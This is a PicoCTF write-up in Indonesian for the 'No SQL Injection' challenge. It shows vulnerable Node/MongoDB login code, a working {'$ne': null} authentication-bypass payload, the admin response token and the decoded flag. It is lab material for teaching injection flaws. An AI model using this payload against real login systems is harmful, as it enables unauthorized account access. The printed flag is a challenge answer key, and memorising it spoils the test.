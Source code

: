 # Writeup PicoCTF: No SQL Injection

[Akses Challenge disini](https://play.picoctf.org/practice/challenge/443?page=1&search=sql)

Di tantangan ini, kita diberikan sebuah website dengan halaman login. Tugas kita adalah mencoba masuk (login) untuk mendapatkan flag-nya, tapi tentu saja kita tidak tahu email dan password-nya.

![pico-no-sql](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/1.png)

## Menemukan Celah

Setelah mengunduh dan melihat source code yang diberikan, kita bisa menemukan celah keamanan pada bagian `server.js`, tepatnya di kode yang menangani proses login:

```javascript
app.post("/login", async (req, res) => {
  const { email, password } = req.body;
  try {
    const user = await User.findOne({
      email:
        email.startsWith("{") && email.endsWith("}")
          ? JSON.parse(email)
          : email,
      password:
        password.startsWith("{") && password.endsWith("}")
          ? JSON.parse(password)
          : password,
    });
```

**Masalah Utama**

Masalah utamanya ada pada baris `JSON.parse(email)` dan `JSON.parse(password)`. Kode ini memeriksa apakah input dari pengguna diawali dengan `{` dan diakhiri dengan `}`. Jika iya, server akan menganggapnya sebagai objek JSON dan langsung menggunakannya untuk mencari data di database MongoDB.

## Langkah Eksploitasi

### 1. Payload

```json
{
  "email": "{\"$ne\": null}",
  "password": "{\"$ne\": null}"
}
```

**Apa arti payload di atas?**
- `"$ne"` adalah operator MongoDB yang artinya *"Not Equal"* (tidak sama dengan).
- `{\"$ne\": null}` berarti "cari data apapun yang nilainya **tidak kosong**".

### 2. Mengirim Payload

Kita bisa menggunakan `curl` di terminal atau burpsuite untuk mengirim payload ini ke server.

![SQLI-2](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/2.png)

### 3. Mendapatkan Flag

Jika berhasil, server akan merespons dengan data user admin, termasuk sebuah `token`:

```json
{
  "success": true,
  "email": "admin@picoctf.org",
  "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==",
  "firstName": "admin",
  "lastName": "user"
}
```

`token` tersebut di-encode menggunakan Base64. Untuk mendapatkan flag-nya, kita perlu men-decode token tersebut.

Bisa menggunakan tool online atau perintah di terminal:

```bash
echo "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzc4NGU0MGU4fQ==" | base64 -d
```

![Decode](https://github.com/bielnzar/Kelas-KWA-2025/blob/main/week2-injection/mandiri/images/no-sql-inj/3.png)

Setelah di-decode, kita akan mendapatkan flag-nya:

> `picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}`